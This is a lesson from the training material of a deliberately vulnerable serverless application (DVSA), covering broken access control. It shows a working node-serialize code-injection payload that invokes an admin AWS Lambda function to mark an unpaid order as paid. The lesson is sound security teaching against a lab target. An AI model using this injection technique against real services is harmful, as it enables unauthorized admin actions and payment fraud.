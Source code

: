 # LESSON #5: Broken Access Control

The DVSA application has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) it is possible to invoke admin function using the standard API calls.

This means that by invoking the right function at the right time, we can skip the payment. But, first, we start with the normal flow:

- `{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}`

- `{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}`

- `{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}`

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:

```
{
  "body": {
    "action": "update",
    "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba",
    "item": {
      "userId": "12312312-1233-1233-1233-123123123123",
      "token": "aSD32d2ASd2",
      "ts": "1545594489",
      "itemList": {
        "20": 2
      },
      "address": {
        "name": "john doe",
        "email": "secret@email.com",
        "address": "po box 31337"
      },
      "total": 25,
      "status": 120
    }
  }
}
```

Now, we have to pass it as part of the exploit itself:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

Which eventually looks like that:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/8NXyXlQ.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipt will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.


Before:
![alt before](https://i.imgur.com/9nENtUW.png)

After:
![alt after](https://i.imgur.com/czspPpV.png)


- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

